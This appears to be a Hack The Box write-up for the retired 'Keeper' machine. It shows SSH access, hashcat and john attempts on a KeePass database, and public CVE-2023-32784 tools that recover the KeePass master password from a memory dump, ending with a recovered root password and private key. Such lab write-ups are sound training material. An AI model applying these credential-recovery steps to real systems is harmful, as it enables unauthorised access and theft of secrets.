





Using the credentials uncovered in the admin web portal, the attacker can log on as `lnorgaard`

```
└─$ ssh lnorgaard@keeper.htb                        
<SNIP>
lnorgaard@keeper:~$ 

lnorgaard@keeper:~$ ls -l
total 85352
-rw-r--r-- 1 root root      87391651 Sep 27 21:06 RT30000.zip
-rw-r----- 1 root lnorgaard       33 Sep 27 20:40 user.txt

```

## Poking around
```
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$ sudo -l
Sorry, user lnorgaard may not run sudo on keeper.

```

## Inspecting the zip file
```
lnorgaard@keeper:~$ ls -l RT30000.zip 
-rw-r--r-- 1 root root 87391651 Sep 27 21:12 RT30000.zip
lnorgaard@keeper:~$ file RT30000.zip
RT30000.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
lnorgaard@keeper:~$ date
Sat 27 Sep 21:12:40 CEST 2025

lnorgaard@keeper:~$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx 
 
 lnorgaard@keeper:~$ ls -lh Kee*
-rwxr-x--- 1 lnorgaard lnorgaard 242M May 24  2023 KeePassDumpFull.dmp
lnorgaard@keeper:~$ ls -lh passcodes.kdbx 
-rwxr-x--- 1 lnorgaard lnorgaard 3.6K May 24  2023 passcodes.kdbx

```

Decided to download it to the attacking machine.
```
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Retired Machines/Keeper]
└─$ scp lnorgaard@10.10.11.227:RT30000.zip .
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:60: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
RT30000.zip                                100%   83MB   2.0MB/s   00:42 
```

Inspecting
```
└─$ file passcodes.kdbx KeePassDumpFull.dmp 
passcodes.kdbx:      Keepass password database 2.x KDBX
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type

```

# Cracking
TL;DR: Cracking was not a sufficient way of obtaining the KeePass password. I decided to leave these notes in here for anyone interested in cracking.
Jump down to [Checking for Request Tracker vulnerabilities](#Checking%20for%20Request%20Tracker%20vulnerabilities) to skip this `cracking` detour.

Looking for a keypass2john binary to convert the database into hashes
```
└─$ find / -type f -name '*2john' 2>/dev/null
/usr/sbin/vncpcap2john
/usr/sbin/keepass2john
/usr/sbin/wpapcap2john
/usr/sbin/hccap2john
/usr/sbin/dmg2john
/usr/sbin/putty2john
/usr/sbin/uaf2john
/usr/sbin/racf2john
/usr/sbin/bitlocker2john

```

Converting the database to hashes
```
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Retired Machines/Keeper]
└─$ /usr/sbin/keepass2john passcodes.kdbx > hashes.txt
                                                                             
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Retired Machines/Keeper]
└─$ file hashes.txt   
hashes.txt: ASCII text, with very long lines (322)

```

Verifying the format to pass to john
```
└─$ john --list=formats | grep -i keepass
416 formatshMailServer, hsrp, IKE, ipb2, itunes-backup, iwork, KeePass, keychain, 
 (149 dynamic formats shown as just "dynamic_n" here)

```

john is taking way too long... trying hashcat
```
└─$ john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:58 0.04% (ETA: 2025-09-29 03:06) 0g/s 128.4p/s 128.4c/s 128.4C/s ronalyn..ilovelife
0g 0:00:03:02 0.12% (ETA: 2025-09-29 08:22) 0g/s 111.7p/s 111.7c/s 111.7C/s MELANIE..230488
0g 0:00:10:51 0.40% (ETA: 2025-09-29 11:01) 0g/s 105.1p/s 105.1c/s 105.1C/s g


```


Checking for proper hashcat flag to pass
```
└─$ hashcat --help | grep -i keepass
  13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)                | Password Manager
  29700 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) - keyfile only mode | Password Manager

┌──(kali㉿kali)-[~/Desktop/HackTheBox/Retired Machines/Keeper]
└─$ hashcat -m 13400 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz, 7328/14720 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashfile 'hashes.txt' on line 1 (passco...4a70818e786f07e68e82a6d3d7cdbcdc): Salt-value exception                                                         
No hashes loaded.

Started: Sat Sep 27 13:44:35 2025
Stopped: Sat Sep 27 13:44:35 2025

```

The salt-value exception isn't great to see. Fortunately a github issue comment said to check out hashcat's example hashes page.
https://github.com/hashcat/hashcat/issues/2173
https://hashcat.net/wiki/doku.php?id=example_hashes



After removing `passcodes:` from the beginning of the hash, hashcat runs properly.

```
└─$ hashcat -m 13400 -a 0 hash_for_hashcat.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz, 7328/14720 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 

```


# Checking for Request Tracker vulnerabilities
While hashcat runs, check for Request Tracker vulnerabilities

### CVE-2023-32784
https://thehackernews.com/2023/05/keepass-exploit-allows-attackers-to.html

https://nvd.nist.gov/vuln/detail/CVE-2023-32784
```
In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running.
```

Attempt 1: https://github.com/vdohney/keepass-password-dumper
Didn't work

Attempt 2: https://github.com/z-jxy/keepass_dump
```
┌──(kali㉿kali)-[~/GitHub_Misc/keepass_dump]
└─$ python3 keepass_dump.py -f KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde

```

Attempt 3: https://github.com/dawnl3ss/CVE-2023-32784
```
┌──(kali㉿kali)-[~/GitHub_Misc/CVE-2023-32784]
└─$ python3 poc.py -d KeePassDumpFull.dmp                           
2025-09-27 14:44:20,001 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de

```

Keep in mind that the password may be danish, or danish related.


- Password variations
	- Rødgrød Med Fløde
	- Rodgrod Med Flode
	- rødgrød med fløde
## Keepass
Installing keypass and attempting the password
```
└─$ sudo apt install keepassxc                 
[sudo] password for kali:
```



Results!


Got a root password and private key!
```
┌──(kali㉿kali)-[~/…/HackTheBox/Retired Machines/Keeper/KeyFiles]
└─$ file private_key   
private_key: PuTTY Private Key File, version 3, algorithm ssh-rsa

```

Converting the key to a format OpenSSH liked didn't quite work.
Decided to install PuTTY on the attacking machine.

```
└─$ sudo apt install putty                     
[sudo] password for kali: 
putty is already the newest version (0.83-3).
```





